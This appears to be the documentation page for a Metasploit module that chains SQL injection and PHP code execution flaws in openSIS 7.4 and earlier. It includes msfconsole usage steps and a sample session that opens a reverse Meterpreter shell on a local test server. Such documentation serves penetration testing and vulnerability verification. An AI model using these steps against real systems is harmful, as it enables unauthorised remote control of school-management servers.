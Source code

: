 ## Vulnerable Application

This module exploits multiple vulnerabilities in [openSIS](https://www.opensis.com/) 7.4 and prior versions which could be abused by unauthenticated attackers to execute arbitrary PHP code. It is based on these advisories:

- http://karmainsecurity.com/KIS-2020-06
- http://karmainsecurity.com/KIS-2020-07
- http://karmainsecurity.com/KIS-2020-08

The module has been successfully tested against [openSIS](https://www.opensis.com/) versions 7.3 and 7.4 running on Ubuntu. Older versions might be affected as well.

## Verification Steps

  1. Install the web application
  2. Start msfconsole
  3. Do: ```use unix/webapp/opensis_chain_exec```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```set TARGETURI [/path/to/opensis]```
  6. Do: ```run```
  7. You should get a shell.

## Options

### TARGETURI

The base path to the web application (e.g. `/opensis/`). The default value is `/`.

## Scenarios

**openSIS 7.4 running on Ubuntu 18.04.4**

```
msf5 > use unix/webapp/opensis_chain_exec
msf5 exploit(unix/webapp/opensis_chain_exec) > set RHOSTS localhost
msf5 exploit(unix/webapp/opensis_chain_exec) > set TARGETURI /opensis/
msf5 exploit(unix/webapp/opensis_chain_exec) > check 

[*] Retrieving session cookie
[*] Injecting malicious SQL into session variable
[*] Calling ForExport.php to set $_SESSION['_REQUEST_vars']
[*] Executing PHP code by calling Bottom.php
[+] 127.0.0.1:80 - The target is vulnerable.

msf5 exploit(unix/webapp/opensis_chain_exec) > run

[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Retrieving session cookie
[*] Injecting malicious SQL into session variable
[*] Calling ForExport.php to set $_SESSION['_REQUEST_vars']
[*] Executing PHP code by calling Bottom.php
[*] Sending stage (38288 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:45460) at 2020-07-01 23:31:43 +0200

meterpreter > getuid 
Server username: www-data (33)
meterpreter > 
```
